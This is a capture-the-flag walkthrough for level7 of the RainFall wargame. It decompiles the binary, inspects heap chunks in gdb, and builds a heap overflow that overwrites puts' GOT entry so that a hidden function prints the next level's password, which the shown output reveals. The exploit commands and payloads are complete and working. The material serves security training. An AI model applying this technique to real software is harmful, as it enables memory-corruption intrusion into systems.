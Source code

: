 # Walkthrough level7

Try to run the file:

```bash
level7@RainFall:~$ ./level7 
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 a
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 a b
~~
```

With the disassembly code we write the c code:
Calls to the malloc function are present. We therefore know that this is a [Heap overflow](https://youtu.be/TfJrU95q1J4?si=e2BZbRUE7gzq1ZPL).  

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>

char *flag;
char *str = "~~";

void m(void) { // 0x080484f4
  printf("%s - %d\n", flag, (int)time(NULL));
}

int main(int argc, char **argv) {
  int *p1 = malloc(8); // 0x804a008
  // to inspect: x/8xw 0x0804a008
  p1[0] = 1;
  p1[1] = (int)malloc(8); // 0x804a018
  // to inspect: x/8xw 0x0804a018
  int *p2 = malloc(8); // 0x804a028
  // to inspect: x/8xw 0x0804a028
  p2[0] = 2;
  p2[1] = (int)malloc(8); //  0x0804a038
  // to inspect: x/8xw 0x0804a038
  strcpy((char *)p1[1], argv[1]);
  strcpy((char *)p2[1], argv[2]);
  fgets(flag, 68, fopen("/home/user/level8/.pass", "r"));
  puts(str);
  return 0;
}
```
We highlight the addresses of each malloc :  
p1 = 0x804a008  
p1[1] = 0x804a018  
p2 = 0x804a028  
p2[1] = 0x0804a038  

Let's take a look at the heap. To do this, we'll look for the beginning of the heap.

``` bash
(gdb) info proc mapping
process 14063
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/user/level7/level7
	 0x8049000  0x804a000     0x1000        0x0 /home/user/level7/level7
	 0x804a000  0x806b000    0x21000        0x0 [heap]
	0xb7e2b000 0xb7e2c000     0x1000        0x0 
	0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd2000 0xb7fd5000     0x3000        0x0 
	0xb7fdb000 0xb7fdd000     0x2000        0x0 
	0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
	0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
	0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
	0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]
``` 
So the start address is 0x804a000.  
We can now put a breakpoint after the first "strcpy" to observe the heap.

``` bash
(gdb) run $(python -c 'print "a" * 4') $(python -c 'print"b" * 4')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/level7/level7 $(python -c 'print "a" * 4') $(python -c 'print"b" * 4')

Breakpoint 5, 0x080485a5 in main ()

(gdb) x/32xw 0x804a000
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x61616161	0x00000000
0x804a020:	0x00000000	0x00000011	0x00000002	0x0804a038
0x804a030:	0x00000000	0x00000011	0x00000000	0x00000000
0x804a040:	0x00000000	0x00020fc1	0x00000000	0x00000000
0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070:	0x00000000	0x00000000	0x00000000	0x00000000
```
We can overflow p1[1] to erase 0x0804a038 who is the address of p2[1] and put "puts@plt" address.  
We must write 20 characters to attemps 0x0804a038.

``` bash
(gdb) disas 'puts@plt'
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    DWORD PTR ds:0x8049928
   0x08048406 <+6>:	push   0x28
   0x0804840b <+11>:	jmp    0x80483a0
End of assembler dump.

```
"puts@plt" address is 0x08049928.

``` bash
(gdb) run $(python -c 'print "a" * 20 + "\x28\x99\x04\x08"') $(python -c 'print"b" * 4')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/level7/level7 $(python -c 'print "a" * 20 + "\x28\x99\x04\x08"') $(python -c 'print"b" * 4')

Breakpoint 5, 0x080485a5 in main ()
(gdb) x/32xw 0x804a000
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x61616161	0x61616161
0x804a020:	0x61616161	0x61616161	0x61616161	0x08049928
0x804a030:	0x00000000	0x00000011	0x00000000	0x00000000
0x804a040:	0x00000000	0x00020fc1	0x00000000	0x00000000
0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070:	0x00000000	0x00000000	0x00000000	0x00000000
```

We have overflow this part.  
Now we can check after the 2nd strcpy: strcpy((char *)p2[1], argv[2]);

```bash
(gdb) x/xs 0x08049928
0x8049928 <puts@got.plt>:	 "bbbb"
```

We have changed the address of p2[1] to that of puts. So in the puts address we have argv[2].  
Because of puts function is used after.  
We now want point to the address of our function m.

```bash
(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:	push   ebp
   0x080484f5 <+1>:	mov    ebp,esp
   0x080484f7 <+3>:	sub    esp,0x18
   0x080484fa <+6>:	mov    DWORD PTR [esp],0x0
   0x08048501 <+13>:	call   0x80483d0 <time@plt>
   0x08048506 <+18>:	mov    edx,0x80486e0
   0x0804850b <+23>:	mov    DWORD PTR [esp+0x8],eax
   0x0804850f <+27>:	mov    DWORD PTR [esp+0x4],0x8049960
   0x08048517 <+35>:	mov    DWORD PTR [esp],edx
   0x0804851a <+38>:	call   0x80483b0 <printf@plt>
   0x0804851f <+43>:	leave  
   0x08048520 <+44>:	ret    
End of assembler dump.
```

Function m address is 0x080484f4.  
Since we're copying argv[2] to the desired address, all we need to do is enter the address of function m in argv[2].  
So, puts address will be replace by m address.

```bash
level7@RainFall:~$ ./level7 $(python -c 'print "a" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1708577258
``` 

In brief, argv[1] is used to access the puts function and argv[2] is used to replace this address by address of function m.  
So it's not the puts function that's called, but the m function.
